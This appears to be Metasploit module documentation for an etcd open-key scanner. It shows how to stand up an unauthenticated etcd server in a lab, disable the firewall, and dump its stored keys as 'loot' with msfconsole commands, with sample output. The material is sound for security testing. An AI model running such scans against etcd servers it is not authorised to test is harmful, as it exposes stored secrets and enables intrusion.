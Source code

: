 ## Vulnerable Application

etcd is a distributed reliable key-value store, which when used in an open and default configuration gives
unauthenticated users access to the data stored via HTTP API.

### Centos 7.1

  1. `yum install etcd`
  2. `vi /etc/etcd/etcd.conf` replace (and uncomment) items with `localhost` for your IP.
  3. `systemctl start etcd; systemctl enable etcd`
  4. On Centos 7.1 you need to mod (or disable) the firewall: `systemctl stop firewalld`
  5. Lastly, lets add a key-value for interest: `curl http://[IP]:2379/v2/keys/supersecret -XPUT -d value="password!"`

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use auxiliary/scanner/etcd/open_key_scanner```
  4. Do: ```set rhosts [IPs]```
  5. Do: ```run```
  6. You should get a JSON response, and the data saved to `loot`.

## Scenarios

### etcd 3.2.15 on CentOS 7.1

```
msf5 > use auxiliary/scanner/etcd/open_key_scanner 
msf5 auxiliary(scanner/etcd/open_key_scanner) > set rhosts 192.168.2.248
rhosts => 192.168.2.248
msf5 auxiliary(scanner/etcd/open_key_scanner) > run

[+] {
  "action": "get",
  "node": {
    "dir": true,
    "nodes": [
      {
        "key": "/supersecret",
        "value": "password",
        "modifiedIndex": 6,
        "createdIndex": 6
      }
    ]
  }
}
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf5 auxiliary(scanner/etcd/open_key_scanner) > loot

Loot
====

host           service  type       name       content     info       path
----           -------  ----       ----       -------     ----       ----
192.168.2.248           etcd.data  etcd.keys  text/plain  etcd keys  /root/.msf4/loot/20180325144351_default_192.168.2.248_etcd.data_425280.txt

msf5 auxiliary(scanner/etcd/open_key_scanner) > services
Services
========

host           port  proto  name  state  info
----           ----  -----  ----  -----  ----
192.168.2.248  2379  tcp    etcd  open   {"etcdserver":"3.2.15","etcdcluster":"3.2.0"}
```
